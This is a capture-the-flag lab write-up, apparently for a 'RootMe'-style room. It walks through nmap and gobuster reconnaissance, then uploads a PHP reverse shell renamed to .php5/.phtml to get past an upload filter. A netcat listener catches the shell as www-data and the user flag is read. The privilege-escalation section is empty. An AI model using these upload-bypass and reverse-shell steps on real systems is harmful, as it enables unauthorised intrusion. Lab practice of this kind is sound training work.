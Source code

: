 ## Target info
10.10.182.156

## Missions
- Root the target and find a flag in user.txt
- Escalate privileges and find a flag in root.txt 

## Performance
### Recon

    root@ip-10-10-91-11:~# nmap -sV -sC 10.10.182.156
    Starting Nmap 7.80 ( https://nmap.org ) at 2025-04-30 10:52 BST
    Nmap scan report for 10.10.182.156
    Host is up (0.00080s latency).
    Not shown: 998 closed ports
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
    |   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
    |_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
    80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
    | http-cookie-flags: 
    |   /: 
    |     PHPSESSID: 
    |_      httponly flag not set
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    |_http-title: HackIT - Home
    MAC Address: 02:67:2F:32:47:6F (Unknown)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 8.02 seconds
    root@ip-10-10-91-11:~# 

###  Root the target and find a flag in user.txt
Find directories on the web server using the GoBuster tool and discover the hidden directory

    root@ip-10-10-91-11:~# gobuster dir -u http://10.10.182.156 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,sh,txt,cgo,html,js,css,py
    ===============================================================
    Gobuster v3.6
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:                     http://10.10.182.156
    [+] Method:                  GET
    [+] Threads:                 10
    [+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.6
    [+] Extensions:              html,js,css,py,php,sh,txt,cgo
    [+] Timeout:                 10s
    ===============================================================
    Starting gobuster in directory enumeration mode
    ===============================================================
    /.html                (Status: 403) [Size: 278]
    /.php                 (Status: 403) [Size: 278]
    /index.php            (Status: 200) [Size: 616]
    /uploads              (Status: 301) [Size: 316] 
    /css                  (Status: 301) [Size: 312] [--> http://10.10.182.156/css/]
    /js                   (Status: 301) [Size: 311] [--> http://10.10.182.156/js/]
    /panel                (Status: 301) [Size: 314] [--> http://10.10.182.156/panel/]

The hidden directory is /panel/

Reverse shell 🐚 Upload

1. **Generate Reverse Shell**
   - Visit: [https://pentestmonkey.net/tools/web-shells/php-reverse-shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell)
   - Download and extract the php reverse shell .gz
   - Save the shell as `shell.php5` or `shell.phtml` (avoid `.php` as it's blocked).
   - Change the following info in the shell
   
            ip [myip]
            port [9999]

3. **Upload Shell**
   - Go to: `http://10.10.182.156/panel`
   - Upload your renamed shell file.

4. **Start Listener**

        root@ip-10-10-91-11:~# nc -lvnp 9999
        Listening on 0.0.0.0 9999
        Connection received on 10.10.182.156 47768
        Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
         13:31:12 up 17 min,  0 users,  load average: 0.00, 0.03, 0.09
        USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
        uid=33(www-data) gid=33(www-data) groups=33(www-data)
        /bin/sh: 0: can't access tty; job control turned off
        $
   
Find the flag in user.txt

        $ find file ./* | grep "user.txt"
        ...
        ./var/www/user.txt
        $ cat ./var/www/user.txt
        
The result of the cat command will show the flag!

### Escalate privileges and find a flag in root.txt




